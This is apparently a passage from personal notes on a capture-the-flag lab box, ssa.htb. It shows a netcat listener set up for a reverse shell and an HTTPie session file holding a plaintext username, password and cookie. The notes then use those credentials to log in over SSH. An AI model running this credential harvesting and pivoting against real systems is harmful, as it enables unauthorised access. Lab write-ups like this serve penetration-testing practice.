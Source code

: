 ![[Pasted image 20230625010024.png]]



~~~
nc -lvnp 1234
~~~

![[Pasted image 20230625005815.png]]

Found admin.json  in 

~~~
~/.config/httpie/sessions/localhost_5000
~~~

cat admin.json

~~~{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}

~~~


![[Pasted image 20230625005608.png]]

Login with SSH :

~~~
sudo ssh silentobserver@ssa.htb
~~~

~~~
Passsword : quietLiketheWind22
~~~
